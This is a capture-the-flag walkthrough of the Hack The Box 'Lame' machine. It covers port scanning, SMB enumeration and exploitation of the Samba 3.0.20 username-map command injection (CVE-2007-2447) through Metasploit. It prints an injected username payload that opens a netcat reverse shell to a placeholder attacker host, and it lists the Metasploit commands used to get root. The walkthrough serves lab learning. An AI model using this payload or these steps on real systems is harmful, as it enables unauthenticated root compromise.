








## Reconnaissance

I began by running a **rustscan** to quickly identify open ports on the target machine.

rustscan -a 10.129.1.58 -- -sC -sV

The output revealed several open ports:

- **21** (FTP)
- **22** (SSH)
- **139, 445** (SMB)
- **3632**



From this scan, FTP immediately stood out as a potential entry point.

---

## FTP Enumeration

Based on the scan results, the FTP service allowed **anonymous login**, which was confirmed by the service version details.


I proceeded to log in anonymously using the following credentials:

- **Username:** anonymous
- **Password:** (blank)

```bash
ftp 10.129.1.58
```



However, there were no useful files or directories available. My initial thought process was to upload a reverse shell and execute it, but there was **no execution endpoint** to trigger such a payload. As a result, I abandoned this path and moved on.

---

## SMB Enumeration

Next, I shifted focus to SMB shares. I started by listing all available shares on the target.

```bash
smbclient -L //10.129.1.58/
```

The output revealed **five shares**:

- `print$` (default)
- `IPC$` (default)
- `ADMIN$` (default)
- `tmp`
- `opt`

I began by investigating the `tmp` share.

```bash
smbclient //10.129.1.58/tmp -N
```



Unfortunately, nothing useful was found here either. I again considered uploading a reverse shell, but just like with FTP, there was no execution or activation point. I therefore decided to move on.

---

## Key Observation: Samba Version

Almost losing desperation, I returned to the SMB share listing and noticed something critical:

(lame server (Samba 3.0.20-Debian))


This version information immediately suggested the possibility of a **known vulnerability**.

---

## Understanding Samba

**What Samba is:**

SMB (Server Message Block) is a network protocol used for sharing files, printers, and other resources between computers, originally developed by IBM and Microsoft.

**Samba** is an open‑source implementation of the SMB protocol for Unix/Linux systems, allowing them to communicate seamlessly with Windows clients.

With the Samba version identified, the next logical step was to search for known vulnerabilities affecting it.

---

## Vulnerability Identification

The target was running **Samba 3.0.20**, which is vulnerable to **CVE‑2007‑2447**.

This vulnerability targets a **command injection flaw** in the `username map script` feature of the `smbd` daemon.

---

## Core Mechanism of the Exploit

When the Samba server processes certain authentication requests (such as MS‑RPC calls like `SamrChangePassword`), it executes an external script to map usernames before authentication.

An attacker can supply a **malicious username containing shell metacharacters**, for example:

```
nc -e /bin/sh ATTACKER_IP 4444 #
```

Due to poor input sanitization, this payload gets executed directly by the system — often **as root** — without requiring authentication.

---

## Execution Flow

1. Connect to the SMB service (ports 139/445) using a crafted malicious username.
2. The server invokes the username map script.
3. The injected command executes on the server.
4. A reverse shell is returned, granting **unauthenticated root access**.

This behavior is exactly what makes HTB Lame exploitable.

---

## Exploit Discovery

A crucial tool at this stage was **searchsploit**, which confirmed the availability of a public exploit.



The exploit can be launched conveniently using **Metasploit**.

---

## Exploitation with Metasploit

I launched Metasploit and searched for the Samba exploit.

```bash
msfconsole

msf > search samba
```





The relevant module appeared as **number 15**. I selected it and configured the required options.

```bash
use 15
show options
set RHOSTS 10.129.1.58
set LHOST tun0
run
```



After successful execution, the exploit returned a callback. I then typed `shell` to obtain a more interactive shell.



---

## Post‑Exploitation

With shell access established, the next objective was to locate the flags.

### User Flag



### Root Flag


This confirmed full compromise of the target system.

---
